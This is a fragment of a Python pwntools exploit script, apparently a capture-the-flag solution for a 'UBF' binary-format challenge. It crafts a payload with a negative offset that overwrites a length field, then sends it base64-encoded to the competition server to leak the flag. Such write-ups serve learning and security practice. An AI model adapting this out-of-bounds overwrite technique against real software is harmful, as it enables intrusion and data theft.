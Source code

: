 ```py

    print(data)
    
    return data

def payload():
    data = b""

    words = [b"$FLAG"]

    data += pwn.p32(0x200) # initial length
    data += b's' # type
    data += pwn.p16(len(words)) # blocks
    data += pwn.p16(len(words)*2) # raw length of blocks

    for w in words:
        data += pwn.p16(len(w))
    for w in words:
        data += w

    bools = [True]

    data += pwn.p32(0x200) # initial length
    data += b'b' # type
    data += pwn.p16(len(bools)) # blocks
    data += pwn.p16((-0x240) & 0xffff) # offset to overwrite length, use -0x23e to overwrite the first 'C' 

    for b in bools:
        data += b"\\01" if b else b"\\00"
    
    return data 

with pwn.remote("ubf.2023.ctfcompetition.com", 1337) as conn:
    data = payload()
    conn.recvuntil(b"Enter UBF data base64 encoded:\n")
    conn.sendline(base64.b64encode(data))

    print(base64.b64encode(data))

    print(conn.recvall().decode())


```